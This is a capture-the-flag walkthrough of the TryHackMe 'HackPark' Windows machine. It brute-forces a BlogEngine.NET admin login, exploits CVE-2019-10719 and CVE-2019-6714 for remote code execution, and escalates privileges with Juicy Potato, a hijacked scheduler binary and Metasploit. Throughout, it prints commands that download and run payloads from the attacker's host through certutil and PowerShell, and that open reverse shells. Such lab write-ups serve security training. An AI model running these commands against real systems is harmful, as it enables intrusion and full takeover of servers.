

#tryhackme #windows #nmap #whatweb #gobuster #ffuf #hydra #searchsploit #powershell #PrivescCheck #juicy-potato #winpeas #msfvenom #smbserver #certutil #metasploit #service-binary-permission 

## Recon
---
### Nmap

```bash
# Nmap 7.94 scan initiated Sat Jun 17 09:53:59 2023 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/thm/HackPark/results/10.10.168.141/scans/_full_tcp_nmap.txt -oX /home/kali/thm/HackPark/results/10.10.168.141/scans/xml/_full_tcp_nmap.xml 10.10.168.141
Nmap scan report for 10.10.168.141
Host is up, received user-set (0.27s latency).
Scanned at 2023-06-17 09:53:59 EDT for 590s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            REASON          VERSION
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-title: hackpark | hackpark amusements
|_http-server-header: Microsoft-IIS/8.5
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-06-16T13:14:14
| Not valid after:  2023-12-16T13:14:14
| MD5:   f202:510e:6044:a92d:d5a6:0abf:fc36:c4f4
| SHA-1: a26c:7693:6e9f:b0ba:a10a:8416:3e9b:bee2:3626:edf0
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQIv3g06lblpVOht08DnR6eDANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhoYWNrcGFyazAeFw0yMzA2MTYxMzE0MTRaFw0yMzEyMTYxMzE0
| MTRaMBMxETAPBgNVBAMTCGhhY2twYXJrMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA7fnSErsWq/8OvVi7k4iP+pVKz/dgh6/ONyMBaCPonI74Z2BTwUAe
| jXNGS6XxfzwQx0u+p2fErO5ygZNytcO1u/SleHSeUwiG5rxa/OFtbzCSpp+Zimwg
| 20r8b0hlog1B+KpviYX7qX28x94wYJC6nGCvtWkweZ20vu9IbDYfEs8UztR5uC7r
| XtQij+3Gy5yAVA2WBVmxsGGVyTgC2LcR2eKL1p0Tn/dld/Lbo+1i9Pt5KfZiPxv6
| ykFb2xtHdsQWlpBGlT8R6x/uvLNc3tn3r/2/J5V2olJltI0lBev8aQUOAtxDFWCu
| k77YqmBW4GhGc6AMusGYrLTiRzSs9s4vVwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAC2/6nBJwlB8
| /AcsdKW1QiwY6LHCAzAuokM2fkzHM/rgt6I33u+a7z4l7AG0M1gSrJN3e5AT9y8b
| AAk4xZAzVoZ92yleiDl/3z+Mnj+vP+l6N1LXUEadVEOiM8VnU6Xy1U6qBE8B89Kl
| SDkDS72qSAX8cpwQFR53MwKiG+c/36Wg3xgkI15Uo9YAXYiSXUJmPaG8x09XOboV
| o2U5zZA4FnOU6TObi8qPYB5ZWLdhsWZVe68Q0W22ZYw8n2ErXtTVucZUCbAgLU3u
| 83JV+V4rf23TZuFHsldLDoiioHkSVQhaEU+DfAE5cca4qJ8YQjIadLtSX/bgIeQT
| OV/ulpvP9E8=
|_-----END CERTIFICATE-----
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2023-06-17T14:04:20+00:00
|_ssl-date: 2023-06-17T14:04:25+00:00; +37s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: firewall|VoIP adapter
Running (JUST GUESSING): Fortinet embedded (98%), Vonage embedded (91%)
OS CPE: cpe:/h:vonage:v-portal
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Fortinet FortiGate-50B or 310B firewall (98%), Fortinet FortiGate 100D firewall (91%), Fortinet FortiGate 1500D firewall (91%), Fortinet FortiGate-60B or -100A firewall (91%), Vonage V-Portal VoIP adapter (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=6/17%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=648DBD45%P=x86_64-pc-linux-gnu)
SEQ(TS=7)
SEQ(SP=108%GCD=1%ISR=10C%TS=7)
OPS(O1=M508NW8ST11%O2=M508NW8ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=M508NW8ST11%O6=M508ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=N)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M508NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Uptime guess: 0.036 days (since Sat Jun 17 09:12:38 2023)
Network Distance: 2 hops
IP ID Sequence Generation: Busy server or unknown class
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 36s, deviation: 0s, median: 36s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   285.22 ms 10.11.0.1
2   285.23 ms 10.10.168.141

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 17 10:03:49 2023 -- 1 IP address (1 host up) scanned in 589.63 seconds
```

### 80 - ,hackpark | hackpark amusements

Whatweb

```js
ASP_NET, Bootstrap, HTML5, HTTPServer[Microsoft-IIS/8.5], JQuery[1.9.1], Meta-Author[My name], Microsoft-IIS[8.5], OpenSearch[http://10.10.168.141/opensearch.axd], Script[application/ld+json,text/javascript], UncommonHeaders[content-style-type,content-script-type], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge]
```


#### Dir

```bash

┌──(kali㉿kali)-[~/thm/HackPark]
└─$ gobuster dir -u http://10.10.168.141 -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -r -t 100
...
http://10.10.168.141/admin                (Status: 200) [Size: 4184]
...
```

## Deploy the vulnerable Windows machine
---

### Whats the name of the clown displayed on the homepage?

Google reverse image ssearch


> PennyWise

## Using Hydra to brute-force a login
---

### BruteForce admin creds

Save the login request from burp


Search default creds using **[DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)**

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ creds search blog engine
+----------------+----------+------------+
| Product        | username |  password  |
+----------------+----------+------------+
| weblogic       |  system  |  weblogic  |
| weblogic (web) | EXAMPLES |  EXAMPLES  |
| weblogic (web) | monitor  |  password  |
| weblogic (web) | operator |  password  |
| weblogic (web) | operator |  weblogic  |
| weblogic (web) |  PUBLIC  |   PUBLIC   |
| weblogic (web) |  system  |  manager   |
| weblogic (web) |  system  |  Passw0rd  |
| weblogic (web) |  system  |  password  |
| weblogic (web) |  system  | welcome(1) |
| weblogic (web) | weblogic |  weblogic  |
| weblogic (web) | WEBLOGIC |  WEBLOGIC  |
| weblogic (web) | weblogic | weblogic1  |
| weblogic (web) | weblogic | welcome(1) |
+----------------+----------+------------+

[+] Creds saved to /tmp/blog-usernames.txt , /tmp/blog-passwords.txt 📥
```

Tried with default creds but failed

```
ffuf -c -w /tmp/blog-passwords.txt:FUZZ1 -w /tmp/blog-passwords.txt:FUZZ2 -request login.req -request-proto http -fw 788
```

Success via trying weak credentials

```bash
ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -fw 788
```

```bash
[Status: 302, Size: 143, Words: 6, Lines: 4, Duration: 294ms]
    * FUZZ1: admin
    * FUZZ2: 1qaz2wsx

:: Progress: [1683/1683] :: Job [1/1] :: 69 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

- Creds: `admin`:`1qaz2wsx`

> [!NOTE] Hydra 
> 
> Brute forcing web with hydra is pain and not a good practice, only use when had no choice
> 
> ```bash
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.168.141 http-post-form "/Account/login.aspx:__VIEWSTATE=pa8L31JoNjyJUsUWjyShRmaSx%2Fm%2F%2BSqX9MJsz7Utqktc3Ye4KlatOxDJGdcs2yrAUeyJJV9Pd5%2F6ZfOgMQGj30YSwh4pEvQozNeMDxcNvpa47jkt6Cqoi8Bf3U62zX8C72fbm5btxtzgx80bc%2BCVVRQMqumsuzojszIAFXC70b15JsGz&__EVENTVALIDATION=g8Vk5cRulOCweuKFDxRrvupqxKSgG7p%2FXQgkgC%2F6SoYDG5OG1OHmhbYDEekJjXa8EpZsEiaEtn4m2D6YkUdDzdlz4eI0HaT8pDmuRsSGMQswVNEdhMWAeILh5tJo7z55uTH7EcXmbq7owucKB%2B53pem%2BK156qlOoaoXGulNeLCEWG9Yd&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=:Login Failed"

## Compromise the machine
---

### Check File Upload

After login


Found a place to upload an aspx webshell in post content function


> Failed to find url to render webshell

### RCE

#### CVE-2019-10719

Go to about page


```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ searchsploit blogengine 3.3.6
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                             | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                             | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                                        | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                                        | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                                     | aspx/webapps/47014.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ searchsploit -m 47011
```

> This exploit uses proxy on port `8080` (Burp Proxy)

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ python3 47011.py -t 10.10.168.56 -u "admin" -p '1qaz2wsx' -l 10.11.19.145:1111
```

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.168.56] 49204
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

#### CVE-2019-6714

Another CVE to achieve RCE

Search : `blogengine 3.3.6 exploit`

> https://www.exploit-db.com/exploits/46353

Directory traversal exploit, can trigger any uploaded webshell


Note that the shell needs to be uploaded as `PostView.ascx`, it will be act like `index` entry point


After uploading, Visit `http://10.10.168.56/?theme=../../App_Data/files/`

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.168.56] 49632
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Windows Privilege Escalation
---
### Basic Enumeration

Systeminfo

```bash
C:\ProgramData>
systeminfo
systeminfo
C:\ProgramData>systeminfo
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA886
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          6/17/2023, 8:17:57 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
...
```

### Potatoes

```bash
c:\windows\system32\inetsrv>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Use **juicy potato** since sweet and god potato doesn't work on windows server 2012

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/HackPark/www]
└─$ ln -s /opt/sectools/win/JuicyPotato.exe
```

Use revshell shell from msfvenom

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ mkdir smb && cd smb

┌──(kali㉿kali)-[~/thm/HackPark/smb]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1112 -f exe > rev.exe

┌──(kali㉿kali)-[~/thm/HackPark/smb]
└─$ smbserver.py s . -smb2support
```

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1112
```

On target

```bash
cd C:\Programdata
certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
```

```bash
C:\ProgramData>.\juicy -p cmd.exe -a "/c \\10.11.19.145\s\rev.exe" -t * -l 15413
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 15413
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.168.56] 49607
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### PrivEscCheck

```bash
powershell -ep bypass -C "iex(new-object net.webclient).downloadstring('http://10.11.19.145/PrivescCheck.ps1'); Invoke-PrivescCheck"
```


> User Can't start `WindowsScheduler` though!


### winPeas

#### Load binary to memory with powershell

> Get colorful output!

> [!NOTE] **Latest version of WINPEAS(202306+) do not work on old machines**
> Use the winpeas release from  [20220209](https://github.com/carlospolop/PEASS-ng/releases/tag/20220209)to make it work properly

> [!Note] If failed to load from memory, run binary directly
> WinPeas is too large to be executed from SMB share, download on disk and run instead
> ```bash
> certutil -urlcache -split -f http://10.11.19.145/winPEASany_ofs.exe C:\Programdata\winpeas.exe
> 
> C:\Programdata\winpeas.exe
> ```

Link binary file to http server dir

```bash
┌──(kali㉿kali)-[~/thm/HackPark/www]
└─$ ln -s /opt/sectools/win/winpeas/2022/winPEASany_ofs.exe
```

Script to load winpeas binary to memory

> winpeas.ps1

```bash
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.11.19.145/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

**Base64 encode into one line powershell command**

```bash
python ~/scripts/powershell_base64.py winpeas.ps1
```

```bash
powershell -ep bypass -nop -e JAB3AHAAPQBbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAWwBiAHkAdABlAFsAXQBdACgASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAIgBoAHQAdABwADoALwAvADEAMAAuADEAMQAuADEAOQAuADEANAA1AC8AdwBpAG4AUABFAEEAUwBhAG4AeQBfAG8AZgBzAC4AZQB4AGUAIgAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAQwBvAG4AdABlAG4AdAApACkAOwAgAFsAdwBpAG4AUABFAEEAUwAuAFAAcgBvAGcAcgBhAG0AXQA6ADoATQBhAGkAbgAoACIAIgApAAoA
```



#### Raw PowerShell With No Color Output

> It stucks at `Current Logged on Users`
> Use binary version to solve the issue

```bash
powershell -ep bypass -C "iex(new-object net.webclient).downloadstring('http://10.11.19.145/winPEAS.ps1')
```


### Abusing SystemScheduler

#### Insecure Permissions on Service Executable

```bash
C:\PROGRA~2\SYSTEM~1>move Wservice.exe Wservice.exe~
move Wservice.exe Wservice.exe~
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>certutil -urlcache -split -f http://10.11.19.145/rev.exe WService.exe
certutil -urlcache -split -f http://10.11.19.145/rev.exe WService.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

C:\PROGRA~2\SYSTEM~1>sc stop WindowsScheduler
sc stop WindowsScheduler
[SC] OpenService FAILED 5:

Access is denied.
```

If it's a REAL Machine, just listen for shell and **REBOT IT**

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1112
```

On Target:

```bash
shutdown /r /t 0
```

#### Manually Investigate Log Files

Go to program directory and enumerate

```bash
c:\windows\system32\inetsrv>cd C:\Program Files (x86)\SystemScheduler
cd C:\Program Files (x86)\SystemScheduler

C:\Program Files (x86)\SystemScheduler>dir /od
dir /od
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of C:\Program Files (x86)\SystemScheduler

08/31/2003  12:06 PM               766 clock.ico
08/31/2003  12:06 PM            80,856 ding.wav
08/31/2003  12:06 PM               766 schedule.ico
11/16/2004  12:16 AM             9,813 License.txt
05/16/2006  03:58 PM             2,026 WScheduler.cnt
05/16/2006  04:49 PM           785,042 WSCHEDULER.CHM
05/16/2006  04:58 PM           703,081 WSCHEDULER.HLP
05/17/2007  01:47 PM             1,150 alarmclock.ico
01/08/2009  08:12 PM           355,446 ssleay32.dll
01/08/2009  08:21 PM         1,637,972 libeay32.dll
06/26/2009  05:27 PM             6,574 whiteclock.ico
03/24/2018  12:09 PM            10,100 ReadMe.txt
03/25/2018  10:58 AM           331,168 WScheduler.exe
03/25/2018  10:58 AM         1,633,696 Scheduler.exe
03/25/2018  10:58 AM            68,512 WSLogon.exe
03/25/2018  10:58 AM            98,720 WService.exe
03/25/2018  10:58 AM           731,552 SSCmd.exe
03/25/2018  10:58 AM           437,664 ShowXY.exe
03/25/2018  10:58 AM           536,992 Message.exe
03/25/2018  10:58 AM           439,712 ShutdownGUI.exe
03/25/2018  10:58 AM           235,936 SSAdmin.exe
03/25/2018  10:58 AM            27,040 PlayWAV.exe
03/25/2018  10:58 AM           456,608 SSMail.exe
03/25/2018  10:58 AM           112,544 RunNow.exe
03/25/2018  10:58 AM           485,792 Privilege.exe
03/25/2018  10:58 AM           136,096 WSCtrl.exe
03/25/2018  10:58 AM            76,704 WhoAmI.exe
03/25/2018  10:59 AM           491,936 SendKeysHelper.exe
03/25/2018  10:59 AM           445,344 PlaySound.exe
03/25/2018  10:59 AM            40,352 sc32.exe
03/25/2018  10:59 AM            33,184 WSProc.dll
08/04/2019  04:36 AM           722,597 unins000.exe
08/04/2019  04:36 AM                60 Forum.url
08/04/2019  04:36 AM                54 Website.url
08/04/2019  04:36 AM             6,999 unins000.dat
08/04/2019  03:05 PM               149 Preferences.ini
06/17/2023  08:18 AM             1,496 LogFile.txt
06/17/2023  08:19 AM             3,760 LogfileAdvanced.txt
06/17/2023  10:50 AM    <DIR>          .
06/17/2023  10:50 AM    <DIR>          ..
06/17/2023  10:50 AM    <DIR>          Microsoft
06/17/2023  12:25 PM    <DIR>          Events
              38 File(s)     11,148,259 bytes
               4 Dir(s)  38,911,102,976 bytes free
```

> `dir -od` : (O)rder By (D)ate

```bash
C:\Program Files (x86)\SystemScheduler>cd Events
cd Events

C:\Program Files (x86)\SystemScheduler\Events>dir /od
dir /od
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of C:\Program Files (x86)\SystemScheduler\Events

06/17/2023  08:19 AM                 0 Scheduler.flg
06/17/2023  11:02 AM                 0 TS.flg
06/17/2023  12:25 PM               182 SYSTEM_svc.flg
06/17/2023  12:25 PM               186 Administrator.flg
06/17/2023  12:25 PM               449 SessionInfo.flg
06/17/2023  12:26 PM                 0 service.flg
06/17/2023  12:29 PM            51,646 20198415519.INI_LOG.txt
06/17/2023  12:29 PM             1,927 20198415519.INI
06/17/2023  12:29 PM    <DIR>          .
06/17/2023  12:29 PM    <DIR>          ..
               8 File(s)         54,390 bytes
               2 Dir(s)  38,911,102,976 bytes free

```

Check logs

```bash
C:\Program Files (x86)\SystemScheduler\Events>type 20198415519.INI_LOG.txt
...
06/17/23 12:28:32,Process Ended. PID:996,ExitCode:4,Message.exe (Administrator)
06/17/23 12:29:01,Event Started Ok, (Administrator)
06/17/23 12:29:32,Process Ended. PID:2240,ExitCode:4,Message.exe (Administrator)
06/17/23 12:30:02,Event Started Ok, (Administrator)
06/17/23 12:30:34,Process Ended. PID:3272,ExitCode:4,Message.exe (Administrator)
06/17/23 12:31:01,Event Started Ok, (Administrator)
```

Check binary perms

```bash
C:\Program Files (x86)\SystemScheduler\Events>cd ..
cd ..

C:\Program Files (x86)\SystemScheduler>icacls Message.exe
icacls Message.exe
Message.exe Everyone:(I)(M)
            NT AUTHORITY\SYSTEM:(I)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Users:(I)(RX)
            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Replace it to reverse shell

```bash
C:\Program Files (x86)\SystemScheduler>move Message.exe Message.exe~
move Message.exe Message.exe~
        1 file(s) moved.

C:\Program Files (x86)\SystemScheduler>certutil -urlcache -split -f http://10.11.19.145/rev.exe Message.exe
certutil -urlcache -split -f http://10.11.19.145/rev.exe Message.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

> wait for it to be run

```bash
┌──(kali㉿kali)-[~/thm/HackPark]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.168.56] 49879
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>whoami
NT AUTHORITY\SYSTEM
```

### Metasploit

`exploit/multi/script/web_delivery` is not working, use smb delivery instead

```bash
use exploit/windows/smb/smb_delivery
set lhost tun0
run
```

On target

```bash
c:\windows\system32\inetsrv>rundll32.exe \\10.11.19.145\vUEO\test.dll,0
```

> wait for about 20 seconds

#### Impersonate System Token

```bash
msf6 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > rev2self
meterpreter > getuid
Server username: IIS APPPOOL\Blog
```

#### Abuse service 

```bash
msf6 exploit(windows/smb/smb_delivery) > use post/windows/gather/enum_services
msf6 post(windows/gather/enum_services) > set session 1
session => 1
msf6 post(windows/gather/enum_services) > run
...
[+] Loot file stored in: /root/.msf4/loot/20230617133247_default_10.10.168.56_windows.services_332006.txt
```

```bash
sudo cat /root/.msf4/loot/20230617133247_default_10.10.168.56_windows.services_332006.txt | grep -v svchost.exe
```


[[3. Hackpark#Insecure Permissions on Service Executable]]

## ETC
---

### PowerShell Version Compatibility

Check powershell's version by using following command

```bash
powershell -ep bypass -C "Write-Host $PSVersionTable"
```

```bash
Name                           Value
----                           -----
PSVersion                      4.0
WSManStackVersion              3.0
SerializationVersion           1.1.0.1
CLRVersion                     4.0.30319.34014
BuildVersion                   6.3.9600.16394
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0}
PSRemotingProtocol
```

The target have **powershell 4** installed

Which means we can use **powershell empire** and much more that **version 2** can't do

### RDP

```bash
xfreerdp /u:Administrator /p:4q6XvFES7Fdxs /v:10.10.168.56 /size:1800x900
```

Error:

```bash
[ERROR][com.freerdp.core] - transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]
```

Connect without using TLS

```bash
xfreerdp /u:Administrator /p:4q6XvFES7Fdxs /v:10.10.168.56 /size:1800x900 /tls-seclevel:0 
```

### Enable WINRM for Powershell Remoting

```bash
C:\Windows\system32>c:\windows\system32\WindowsPowershell\v1.0\powershell.exe -C "Enable-PSRemoting -Force"
c:\windows\system32\WindowsPowershell\v1.0\powershell.exe -C "Enable-PSRemoting -Force"
WinRM is already set up to receive requests on this computer.
WinRM has been updated for remote management.
Configured LocalAccountTokenFilterPolicy to grant administrative rights remotely to local users.
```